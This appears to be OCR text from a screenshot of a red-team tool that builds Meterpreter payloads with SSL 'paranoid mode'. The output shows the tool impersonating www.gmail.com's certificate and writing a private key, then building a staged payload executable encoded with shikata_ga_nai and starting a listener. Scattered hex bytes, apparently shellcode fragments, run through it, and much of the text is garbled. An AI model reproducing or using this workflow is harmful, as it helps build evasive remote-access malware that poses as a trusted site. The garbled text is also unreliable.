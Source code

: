 #Author::r00t-3xp101tUxca.0x74,0x99.0k10.0

MPMO:: v1.4:: Suspicious Shell_Activity

Red Team:: 2017/6/25 6x25.8k21.8

Meterpreter Paranoid Mode (SSL/TLS) connections

x450x4b, 0x41.8

This tool allow users to secure your staged/stageless connections http(s) for meterpreter by having it check|x20,0x440×67 €

the

certificate of the handler it is connecting to. x54,0x24,0x40,0

Press [ENTER] to continue! Oxlf, 0x40x5c,0x79,0x500x72,0

5.Oxbe, 0x91, Dvig, even 0.670x2068.0xco. 0xb3,8xbc,0x98,0x45.0

6

[] Input pem settings..

[] Impersonating certificate uxda Ux300x11.0xcd.0x74,0x00,0xin.C Impersonating www.gmail.com RSA pravate key 36, 8x11, 0xcd, 8x74, 8x3,0xin, E

9x60, Uχόα, υx65

170x92,0xb8 0xca.

9x07,0x34,9x00 Writing new private key t to www.gmail.com.key

[] Stored: output/www.omail.com.pem.. [] staged payload sellected, 0xe00x30x7, 8x250x250x21,0

[] Building staged payload.exe 8, 0xca Owhc, 0x310x45,0x46.0x4.0

Found 1 compatible encoders encoders of Oxcd Attempting to encode payload with 3 iterations of x86/shikata ga ga_na nai

x4b

x86/shikata ga nai succeeded with size 398 (iteration=0) x86/shikata ga nai succeeded with size 425 (iteration=1)748x99,8x18,0x50,8

x86/shikata ga_nai succeeded with size 452 (iteration=2)40Bx22,0x9d, 0x13.C x86/shikata ga nai chosen with final size 452

Payload size: 452 bytes

Final size of exe file: 73802 bytes (4) UxBxbе 1х15,8x60, 0xda,8x55

Saved as: paranoid-staged.exeCLIVECAN Tech beam0,0x00,0x67,0

[] Building [] Start multi-handler.xxcg0x7401 yy, ux34, 0x03, 0xd6 0xcd,
Hello 
